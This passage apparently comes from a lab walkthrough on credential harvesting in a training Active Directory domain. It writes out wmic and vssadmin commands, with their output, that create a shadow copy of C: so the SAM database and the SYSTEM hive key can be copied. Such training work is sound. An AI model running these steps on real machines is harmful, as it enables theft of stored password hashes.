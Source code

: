 More specifically, we will be using wmic to create a shadow volume copy. This has to be done through the command prompt with **administrator privileges** as follows,

1. Run the standard cmd.exe prompt with administrator privileges.
2. Execute the wmic command to create a copy shadow of C: drive
3. Verify the creation from step 2 is available.
4. Copy the SAM database from the volume we created in step 2

Now let's apply what we discussed above and run the cmd.exe with  administrator privileges. Then execute the following wmic command:

- **Creating a Shadow Copy of Volume C with WMIC**

```shell-session
C:\Users\Administrator>wmic shadowcopy call create Volume='C:\'
Executing (Win32_ShadowCopy)->create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ReturnValue = 0;
        ShadowID = "{D8A11619-474F-40AE-A5A0-C2FAA1D78B85}";
};
        
```

Once the command is successfully executed, let's use the `vssadmin`, Volume Shadow Copy Service administrative command-line tool, to list and confirm that we have a shadow copy of the `C:` volume. 

- **Listing the Available Shadow Volumes**

```shell-session
C:\Users\Administrator>vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Contents of shadow copy set ID: {0c404084-8ace-4cb8-a7ed-7d7ec659bb5f}
   Contained 1 shadow copies at creation time: 5/31/2022 1:45:05 PM
      Shadow Copy ID: {d8a11619-474f-40ae-a5a0-c2faa1d78b85}
         Original Volume: (C:)\\?\Volume{19127295-0000-0000-0000-100000000000}\
         Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
         Originating Machine: Creds-Harvesting-AD.thm.red
         Service Machine: Creds-Harvesting-AD.thm.red
         Provider: 'Microsoft Software Shadow Copy provider 1.0'
         Type: ClientAccessible
         Attributes: Persistent, Client-accessible, No auto release, No writers, Differential

        
```

The output shows that we have successfully created a shadow copy volume of (C:) with the following path: `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1`. 

As mentioned previously, the SAM database is encrypted either with [RC4 ](https://en.wikipedia.org/wiki/RC4)or [AES ](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard)encryption algorithms. In order to decrypt it, we need a decryption key which is also stored in the files system in `c:\Windows\System32\Config\system`. 
